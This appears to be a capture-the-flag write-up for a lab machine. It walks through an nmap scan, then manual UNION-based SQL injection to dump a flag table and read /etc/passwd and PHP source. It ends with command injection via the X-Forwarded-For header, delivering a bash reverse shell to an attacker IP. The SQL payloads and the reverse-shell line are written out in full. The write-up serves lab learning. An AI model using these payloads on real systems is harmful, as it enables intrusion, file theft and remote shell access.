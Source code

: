 first nmap scan , only port 80 is open 
![[Pasted image 20240524161744.png]]



There's definitely something here our input is checked on db , but how can we inject our sql query on it 
![[Pasted image 20240524164641.png]]

let's check sqlmap 
![[Pasted image 20240524162539.png]]

sqlmap didn't find anything 


but if we try a manual , UNION injection we can see a different response that may lead to sql injection

![[Pasted image 20240524164820.png]]

we can use this to enumerate database

the database used is ==november==
![[Pasted image 20240524164945.png]]
the use is ==uhc@localhost==
![[Pasted image 20240524165106.png]]

we an get the tables using 
`' UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES Where table_schema='november'--  `
![[Pasted image 20240524165512.png]]

so the tables is ==flag==
we can try to read the content of this table using
`' UNION SELECT * from november.flag--  `
![[Pasted image 20240524165638.png]]

UHC{F1rst_5tep_2_Qualify} , if we take a look at challenge.php we will notice that the page is asking for a flag 

if we submit it , we can got ssh open to our ip
![[Pasted image 20240524170203.png]]

but we need credential to ssh into machine , let's try to read files on the machine using sql injection 
`' UNION SELECT LOAD_FILE('/etc/passwd')--  `
![[Pasted image 20240524170450.png]]

Now we can read file , let's read the php files 
if we check the firewall.php 

`' UNION SELECT LOAD_FILE('/var/www/html/firewall.php')--  `
![[Pasted image 20240524170736.png]]

we can see that we can inject code in header 
`<section class="bg-dark text-center p-5 mt-4">

<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT"); 
?>
              

if we use HTTP_X_FORWARDED_FOR we can inject our code into this header

``
`X-FORWARDED-FOR: ;bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/1337 <&1';

![[Pasted image 20240524175113.png]]

![[Pasted image 20240524175152.png]]

